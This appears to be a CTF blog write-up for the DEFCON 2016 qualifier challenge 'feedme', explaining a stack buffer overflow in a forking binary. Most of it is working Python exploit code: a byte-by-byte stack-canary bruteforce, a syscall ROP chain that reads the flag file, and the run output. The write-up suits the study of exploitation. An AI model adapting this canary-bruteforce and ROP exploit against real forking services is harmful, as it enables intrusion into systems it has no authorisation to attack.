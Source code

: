 ```yaml
---
layout: post
title: DEFCON CTF 2016 - Feedme
post_author: r00ta
excerpt_separator: <!--more-->
---
```


First at all execute `file` command on the binary

```bash
$ file feedme 
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

and with `checksec` we see that NX is enabled and debugging a little bit we realize that the usage of the binary is simple: a "parent" process launches child processes that takes 1 byte `x`, then reads `x` number of bytes. But the length of the buffer is 32, so if we send "\x36" + "A"*0x36 the canary is overwritten and smash the stack detected. 

So we have to leak the canary in order to overwrite the return address. The bug was that child's canary is always the same, so we can try to send 0x32 bytes of garbage and bruteforce the 33th byte (easy, always `\x00`), then the 34th, then the 35th and 36th one.

<!--more-->

This part of the exploit is 

```python 
#!/usr/bin/env python2

import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    data = ''
    while not data.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        data += tmp

    return data

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))
recvuntil("FEED ME!\n")
canary = "\x00"
while len(canary)!=4:
	for brute in range(0,255):
		#print brute
		init = binascii.unhexlify(hex(32+len(canary)+1)[2:])
		garbage = "A"*32
		
		if len(hex(brute)[2:])==1:
			pad = "0"
		else:
			pad = ""
		tryLeakByteCanary = binascii.unhexlify(pad + hex(brute)[2:])
		s.send(init + garbage + canary+ tryLeakByteCanary)
		data = recvuntil("FEED ME!\n")
		if "YUM" in data:
			print "LEAKED: "  + str(tryLeakByteCanary)
			print data
			canary += tryLeakByteCanary
			break
```

and then we write a ROPchain that reads `flag` string, open `flag` file and write its content to std output (we spent a lot of time trying to execve /bin/sh, we wrote custumized ROPchain also. Only after some hours we decided to follow this way. After solving the challenge we read on IRC "pwnables have busybox -> /bin/sh. Your execve shell code is probably broken" -> **** off!).

```python
p = ''
p += p32(0x080bb496) #pop eax
p += p32(0x3)#read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x5)#flag\x00
p += p32(0x080eaf80)#BSS address
p += p32(0x0)
p += p32(0x0806FA20) #int 80; ret


p += p32(0x080bb496) #pop eax
p += p32(0x5) #fopen
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x0)
p += p32(0x0)
p += p32(0x080eaf80) #address of flag string
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x3) #read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060) #.data address
p += p32(0x2) #FD
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x4) #write sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060)#address
p += p32(0x01) #FD
p += p32(0x0806FA20) #int 80; ret
``` 

PWN THEM!!

```python
init = binascii.unhexlify(hex(len(garbage + canary + "A"*12 + p))[2:])
s.send(init + garbage + canary + "A"*12  + p)
print recvuntil("...\n")
print "interactive "
s.send("flag\x00")
interactive()
```

```bash
$ python exploit.py feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me 4092
LEAKED: R
ATE 41414141414141414141414141414141...
YUM, got 34 bytes!
Child exit.
FEED ME!

LEAKED: 
ATE 41414141414141414141414141414141...
YUM, got 35 bytes!
Child exit.
FEED ME!

LEAKED: �
ATE 41414141414141414141414141414141...
YUM, got 36 bytes!
Child exit.
FEED ME!

CHECK len(canary): 4
�anary: R
PWN THEM!!

ATE 41414141414141414141414141414141...

interactive 
The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO
��������@�
         Child exit.
FEED ME!
```

Files for this challenge can be found [here]({{ site.baseurl }}/files/defcon2016/feedme/).
